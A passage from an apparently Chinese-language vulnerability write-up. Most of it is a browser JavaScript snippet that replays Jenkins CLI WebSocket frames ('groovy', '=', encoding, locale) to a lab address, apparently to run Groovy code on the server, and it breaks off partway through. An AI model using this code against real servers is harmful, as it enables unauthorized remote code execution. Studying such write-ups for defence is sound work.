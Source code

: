 返回包

![图片](assets/1706497193-1d450f5741e8d98c6327886050c75ba4.png)

我们把这些流量用 js 模拟即可

```bash


  // WebSocket 的 URL，通常以 "ws://" 或 "wss://" 开头
var socketUrl = "ws://172.16.11.1:8081/cli/ws/";

// 创建 WebSocket 实例
var socket = new WebSocket(socketUrl);

// 监听连接建立事件
socket.addEventListener("open", (event) => {
    var goovyArray = new Uint8Array([0x00,0x00,0x06]);
    var groovyStrArray = new TextEncoder().encode("groovy");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x00,0x00,0x01]);
    var groovyStrArray = new TextEncoder().encode("=");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x02,0x00,0x05]);
    var groovyStrArray = new TextEncoder().encode("UTF-8");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x01,0x00,0x0b]);
    var groovyStrArray = new TextEncoder().encode("zh_CN_#Hans");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

     var goovyArray = new Uint8Array([0x03]);
```